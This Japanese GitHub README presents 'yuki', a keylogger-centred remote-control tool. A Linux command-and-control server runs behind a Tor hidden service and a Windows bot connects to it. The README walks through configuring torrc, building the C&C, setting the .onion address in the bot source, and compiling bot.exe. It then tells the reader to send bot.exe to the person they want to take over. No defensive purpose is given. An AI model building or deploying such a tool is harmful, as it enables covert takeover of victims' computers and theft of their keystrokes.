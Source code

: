 # yuki
keylogger搭載してるというか、それに特化したハッキングツール。<br>

ちなみに、カレントディレクトリの表示は動作確認用

## 動作環境
### C&C
* Linux (Debian)
### Bot
* Windows 10

## 注意
使用するとき、仮想マシンが必須になるかもしれません。<br>
あと、多少のバグは許して...

## コンパイル
WindowsとLinuxと同時に使って環境構築をしていきます。<br>
まずは、Linuxから設定をしていきます。<br>

Torをインストール
```
$ sudo apt install tor
```
インストールが終わったらtorrcを編集します。
```
$ sudo vi /etc/tor/torrc
```
ソースコードの関係上以下の通りに書き換えてください。
```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```
ここでほぼほぼLinuxでの設定は完了します。<br>
では、以下のコマンドを実行しちゃって終わらせちゃいましょう。
```
$ bash build.sh
```
ちなみに、onionサイトのドメイン名を確認するには
```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

<br>
次は、Windowsにうつって環境構築していきます。<br>
ぶっちゃけて言うとクロスコンパイラ使えば問題ないと思いますが、めいんどいので今回は解説しません。<br>

まず、botというディレクトリのなかのmain.cppを開きます。<br>

そしたら、xxxxxxxxxxxxxxxxxxxxxxxxxxx.onionをcncサーバのドメイン名に書き換えてください。
```c
#define cnc_onion_server    "xxxxxxxxxxxxxxxxxxxxxxxxxxx.onion"
```
終わったらbuild.batを実行してコンパイル終了です。

## 使い方
必ず最初にLinuxでcnc.outを実行してください。
```
$ ./cnc.out
```
そしたら、コンパイルしたbot.exeを乗っ取りたい相手に送ってください。<br>
<br>

## 参考資料
[RAT](https://github.com/ware255/RAT) <br>
[ Working with Tor (C/C++) ](https://gist.github.com/anhldbk/f62fbe5e5a0e48740c6959e3e0907c81) <br>
[ Simple keylogger in C++ ](https://gist.github.com/cdohara/99f3ac257b6f98d723818aedd1c39a4e)
